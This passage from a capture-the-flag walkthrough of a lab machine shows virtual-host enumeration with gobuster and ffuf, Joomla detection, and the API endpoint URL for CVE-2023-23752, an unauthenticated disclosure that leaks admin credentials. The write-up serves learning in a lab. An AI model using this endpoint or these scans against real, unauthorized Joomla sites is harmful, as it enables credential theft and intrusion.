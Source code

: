 EDIT:

> gobuster support vhost enumeration too: ```gobuster vhost -u devvortex.htb -w ~/SecLists/Discovery/DNS/subdomains-top1million-5000.txt```

So if you look at host header via burpsuite, you can notice that changing host will not return server errors, instead it tries to resolve the host. In particular we can see that injecting someghing like:

```
Host: whatever.devvortex.htb
```

will return always a status code like `302 redirection`.
This is beacuse virtual host are configured. So more DNS are managed by the same server and we can enumerate others subdomains with this technique. We need a more detailed software to reach our scope:

enumerate dns subdomains by looking at returned status code when injecting host header.

We can achieve this with ffuf

```bash
# virtual host enumeration through ffuf
ffuf -c -w ~/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://devvortex.htb -H "Host: FUZZ.devvortex.htb" -fc 302
```

302 is the bad status code which is returned when subdomain does not exists and is specified with flag `-fc`

Result:

```bash
dev                     [Status: 200, Size: 23221, Words: 5081, Lines: 502, Duration: 216ms]
```

so in order to access the new domain, we need to add it to `/etc/hosts` too:


```
10.10.11.242 devvortex.htb
10.10.11.242 dev.devvortex.htb
```

Visiting `10.10.11.242 devvortex.htb` will show a page about site development. Running some checks with `CMSMap` (or `CMSeek`) or visiting `/administrator` will confirm the usage of `JOOMLA CMS`. We can enumerate Joomla issues with some software.

Using Nuclei, will return an `Information Disclosure` CVE on JOOMLA leading direct access to admin through admin credentials.

```
4.0.0 <= Joomla <= 4.2.7 Unauthenticated Information Disclosure
```

`
[CVE-2023-23752] [http] [medium] http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
`
